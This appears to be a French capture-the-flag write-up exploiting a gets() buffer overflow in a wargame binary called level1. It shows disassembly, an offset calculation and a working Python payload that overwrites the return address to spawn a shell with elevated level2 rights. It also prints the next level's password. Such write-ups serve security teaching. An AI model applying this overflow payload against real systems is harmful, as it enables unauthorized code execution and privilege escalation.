 ## Démarche
<!-- - La commande `readelf -r level1` nous donne des informations à propos du programme elf `level1` :
  
    ```
    Relocation section '.rel.dyn' at offset 0x2c0 contains 2 entries:
    Offset     Info    Type            Sym.Value  Sym. Name
    08049788  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
    080497c0  00000605 R_386_COPY        080497c0   stdout

    Relocation section '.rel.plt' at offset 0x2d0 contains 5 entries:
    Offset     Info    Type            Sym.Value  Sym. Name
    08049798  00000107 R_386_JUMP_SLOT   00000000   gets
    0804979c  00000207 R_386_JUMP_SLOT   00000000   fwrite
    080497a0  00000307 R_386_JUMP_SLOT   00000000   system
    080497a4  00000407 R_386_JUMP_SLOT   00000000   __gmon_start__
    080497a8  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main
    ``` -->

- La commande `objdump -d level1` nous permet de connaitre la constitution du programme :
  - On remarque une fonction `run` en plus du `main`:
     > 08048444 <run>:
  - Ainsi qu'un appel de `gets` dans le `main` : 
    >  8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>

    Cette fonction est déconseillée :
    `man gets`
    > SECURITY CONSIDERATIONS
     The gets() function cannot be used securely.  Because of its lack of bounds
     checking, and the inability for the calling program to reliably determine
     the length of the next incoming line, the use of this function enables mali-
     cious users to arbitrarily change a running program's functionality through
     a buffer overflow attack.  It is strongly suggested that the fgets() func-
     tion be used in all cases.  (See the FSA.)

- Dans gdb, avec peda (`source /tmp/peda/peda.py`- cf level0)
  - `disass main` :
    ```
    0x08048480 <+0>:	push   ebp
    0x08048481 <+1>:	mov    ebp,esp
    0x08048483 <+3>:	and    esp,0xfffffff0
    0x08048486 <+6>:	sub    esp,0x50
    0x08048489 <+9>:	lea    eax,[esp+0x10]
    0x0804848d <+13>:	mov    DWORD PTR [esp],eax
    0x08048490 <+16>:	call   0x8048340 <gets@plt>
    0x08048495 <+21>:	leave
    0x08048496 <+22>:	ret
     ```
  - `disass run` :
    ```
    Dump of assembler code for function run:
    0x08048444 <+0>:	push   ebp
    0x08048445 <+1>:	mov    ebp,esp
    0x08048447 <+3>:	sub    esp,0x18
    0x0804844a <+6>:	mov    eax,ds:0x80497c0
    0x0804844f <+11>:	mov    edx,eax
    0x08048451 <+13>:	mov    eax,0x8048570
    0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
    0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
    0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
    0x0804846a <+38>:	mov    DWORD PTR [esp],eax
    0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
    0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
    0x08048479 <+53>:	call   0x8048360 <system@plt>
    0x0804847e <+58>:	leave
    0x0804847f <+59>:	ret
    End of assembler dump.
    ```

  - En lançant le debug avec un breakpoint sur le main (`br main`) puis en sautant jusqu'à l'adresse de la fonction run (`jump *0x08048444`), on obtient l'ouverture d'un shell avec les droits level1 :
    ```
    Good... Wait what?
    [New process 4468]
    process 4468 is executing new program: /bin/dash
    $ whoami
    [New process 4469]
    process 4469 is executing new program: /usr/bin/whoami
    level1
    $ [Inferior 4 (process 4469) exited normally]
    ```
    <!-- - `(python -c 'print("\xef\xbe\xad\xde")' ; cat) | ./level1` -->

  - Pour exploiter la faille de la fonction gets, nous devons trouver quelle taille permet d'overflow le buffer :
    - On utilise une  longue chaîne de caractères générée par notre fonction `string_generate`  puis en donnant en paramètre l'adresse de segmentation fault, notre programme `get_offset` nous envoie la taille de l'offset: 
    ```bash
    Breakpoint 1, 0x08048480 in main ()
    (gdb) c
    Continuing.
    aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
    Program received signal SIGSEGV, Segmentation fault.
    0x74747474 in ?? ()

    python3 get_offset.py 0x74747474
    offset = 76
	```
  > Note: Nous avons créé notre propre programme pour trouver la valeur de l'offset, mais il existe des outils permettant de le faire. Dans les prochains write up nous montrerons comment utiliser l'outil `pattern` de `peda`.


- Dans la Vm :
  - générer une chaine de 76 caractères suivie de l'adresse de la fonction `run` (0x08048444 inversée car système little endian) et la passer sur l'entrée standard du programme :
    `(python -c 'print "A"*76+"\x4a\x84\x04\x08"' ; cat) | ./level1`

    Un nouvel shell est exécuté avec les droits user level2 :
      ```
      Good... Wait what?
      whoami
      level2
      pwd
      /home/user/level1
      cd ../level2
      pwd
      /home/user/level2
      ls
      level2
      ls -la
      total 17
      dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
      dr-x--x--x  1 root   root    340 Sep 23  2015 ..
      -rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
      -rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
      -rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
      -rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
      -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
      cat .pass
      53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
      ```

<br>
----
## Ressources

- [Return to libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack)
- [Buffer Overflow Attack](https://owasp.org/www-community/attacks/Buffer_overflow_attack)
- [Managing inputs for payload injection](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection/13929#13929)
- [Check Endian system](https://serverfault.com/questions/163487/how-to-tell-if-a-linux-system-is-big-endian-or-little-endian)


<!-- - [PLT call in ELF programm](https://stackoverflow.com/questions/25667205/what-exactly-does-putsplt-mean) -->
<!-- - [RELRO - Memory Corruption Mitigation Technique](https://tk-blog.blogspot.com/2009/02/relro-not-so-well-known-memory.html) -->
<!-- - [Mémoire - protection : RELRO](https://www.root-me.org/fr/Documentation/Applicatif/Memoire-protection-RELRO) -->

